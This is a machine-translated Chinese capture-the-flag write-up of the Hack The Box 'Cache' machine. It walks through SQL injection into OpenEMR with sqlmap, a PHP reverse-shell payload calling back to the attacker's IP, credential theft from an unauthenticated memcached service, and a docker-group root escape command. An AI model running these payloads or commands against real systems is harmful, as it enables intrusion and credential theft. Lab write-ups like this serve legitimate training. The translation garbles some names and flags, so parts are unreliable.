# HTB“缓存”[书面评论]

> 原文：<https://infosecwriteups.com/htb-cache-writeup-c3966ac8867c?source=collection_archive---------3----------------------->

## SQL 注入| unauth Memcached 暴露凭证| Docker Linux 映像漏洞



## 摘要

缓存需要枚举和直觉的结合，而不是使用广泛的扫描工具。e.x .将 ip 地址映射到 hms.htb 而不是 cache.htb 该计算机中利用的漏洞是 OWASP Top 10 中列出的最常见的漏洞，即 SQL 注入。利用基于 web 的应用程序(openEMR)登录门户中的此漏洞会暴露该应用程序的用户凭据。利用这个，进入了账户。PHP 反向 shell 被旋转，以用户 ash 登录后检索到 user.txt。

完成 root 只需要一行命令。这很容易，尤其是当你已经知道这个漏洞，或者你知道在哪里搜索。

**平台:** Linux Ubuntu

**工具:**`nmap`**|**|`sqlmap`|`docker`|`telnet`

**漏洞利用:** [OpenEMR < 5.0.1 认证 RCE](https://www.exploit-db.com/exploits/45161) | [Docker Linux 镜像漏洞利用](https://gtfobins.github.io/gtfobins/docker/)

## 列举

Nmap TCP 扫描输出



## 据点

************端口 80 Apache httpd * * * * * * * * * * * * * * * * * * * * * * * * * * * ***

从在端口 80 上浏览 http://10.10.10.188 开始，我在**author.html**页面上看到了我的第一个潜在用户名(ash)、域名(cache.htb)和漏洞(HMS)。

在 **/etc/hosts** 文件中设置本地域，指向其 IP 地址。

**cache.htb**

挖掘这个网站后发现了一个密码。



在[http://cache.htb/login.html](http://cache.htb/login.html)上使用用户名(ash)和找到的密码登录门户后，我们看到页面正在建设中。



这里没发现什么。现在回到开始，注意在“author.html”上写着:*“检查他的其他项目，如 cache: HMS”。*

我将 **hms.htb** 添加到 **/etc/hosts** 文件中，瞧！它显示了一个新的登录页面。



**hms.htb**

我们可以看到数据库名称是:**openemr**T36【5 . 0 . 1(3)。



使用这个[网站](https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69)，我发现了这个网络应用程序的 MYSQL 漏洞，以及数据是如何通过这个漏洞泄露的:[*http://hms.htb/portal/add_edit_event_user.php?eid=*](http://hms.htb/portal/add_edit_event_user.php?eid=1)*1*

在寻找这个页面上的错误后，我在 burp 上截取了这个并保存了文件。



该站点将表名称为 **users_secure。**

*或者，这也可以通过运行:*找到

`sqlmap -r portal.burp -D openemr --batch -D openemr --tables`

使用这些信息，我们可以通过运行 **sqlmap** 来检索数据库表中的内容。



保存此请求后，使用 sqlmap 运行以下命令。接下来，使用 `john.`破解找到的密码散列

## 反向外壳

使用找到的凭据成功访问。



以这篇[文章](https://labs.bishopfox.com/advisories/openemr-5-0-16-remote-code-execution-cross-site-scripting)为指导，我利用了 openemr RCE 漏洞。

启动一个监听端口，并在其定制的 php 站点上执行以下命令。

`<?php
exec(“/bin/bash -c ‘bash -i >& /dev/tcp/10.10.14.27/8898 0>&1’”);
?>`



现在，打开 **custom_pdf.php** 让 shell 在攻击者的机器上执行。



# 横向运动

在 **/home** 目录下，通知**灰**。输入我们之前找到的密码，我们就可以进去了！



成功了！！！

当使用`netstat` 命令调查 TCP 网络连接时，注意机器的端口 11211 监听本地主机 IP 地址，并且正在运行 [memcached](https://niiconsulting.com/checkmate/2013/05/memcache-exploit/) 服务。



在这篇文章之后——[memcache-exploit](https://niiconsulting.com/checkmate/2013/05/memcache-exploit/)，我运行了`Telnet`来连接和暴露敏感信息。



# 权限提升

后登录为路飞，发现路飞是 docker 组成员。



使用 [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) 站点，我们可以使用下面的命令来获取根 shell。

`docker run -v /:/mnt — rm -it alpine chroot /mnt sh`

注意: *alpine* 需要用 *ubuntu* 替换，因为受害机运行在 **Ubuntu** 机上。



**成功！！！**



# 参考

*   [https://medium . com/@ musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd 8644 a69](https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69)
*   [https://labs . bishop fox . com/advisories/openemr-5-0-16-远程代码执行-跨站点脚本](https://labs.bishopfox.com/advisories/openemr-5-0-16-remote-code-execution-cross-site-scripting)
*   [https://NII consulting . com/checkmate/2013/05/memcache-exploit/](https://niiconsulting.com/checkmate/2013/05/memcache-exploit/)
*   [https://gtfobins.github.io/gtfobins/docker/](https://gtfobins.github.io/gtfobins/docker/)